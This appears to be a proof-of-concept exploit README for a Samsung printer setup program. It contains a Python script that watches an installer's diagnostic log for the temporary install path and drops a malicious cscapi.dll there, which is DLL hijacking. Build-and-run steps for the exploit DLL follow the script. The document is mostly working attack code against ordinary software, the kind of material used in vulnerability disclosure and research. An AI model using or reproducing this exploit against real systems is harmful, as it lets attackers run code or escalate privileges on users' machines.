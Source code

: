 ```python
```

poc_Samsung Printer Setup Program.py

```python
# python 3.8.2
import os
import shutil
import getpass

USER_NAME = getpass.getuser()
LOG_FILE = f'C:\\Users\\{USER_NAME}\\AppData\\Local\\Temp\\RemoteDiagnosis.exe.log'
DLL_NAME = 'cscapi.dll'


def checkFile(path : str) -> str:
    while True:
        if os.path.exists(path):
            try:
                with open(path, 'r', encoding='utf-16le') as f:
                    data = f.read()
                    slice_index = data.rfind(r'Latest_Universal\setup.ex')
                    if slice_index == -1:
                        continue

                    slice_data = data[:slice_index + len('Latest_Universal')]
                    temp_path = slice_data[data.find('= [')+3:]
                    return temp_path
            except:
                continue


if __name__ == '__main__':
    if os.path.exists(LOG_FILE):
        os.remove(LOG_FILE)

    temp_path = checkFile(LOG_FILE)
    print('[+] Found Log File')

    dll_path = temp_path
    dll_path += '\\' + DLL_NAME

    shutil.copy(DLL_NAME, dll_path)
    print('[+] DLL Copy Success')
```

poc_Samsung Printer Diagnostics.py

1. Use Visual Studio 2022.
2. Compile the project in the exploit directory in x86 Release mode.
3. Rename the compiled dll to {DLL_NAME} and place it in the same directory as poc.py(Only when necessary).
4. Run poc.py(Only when necessary)
5. Run Installer File.
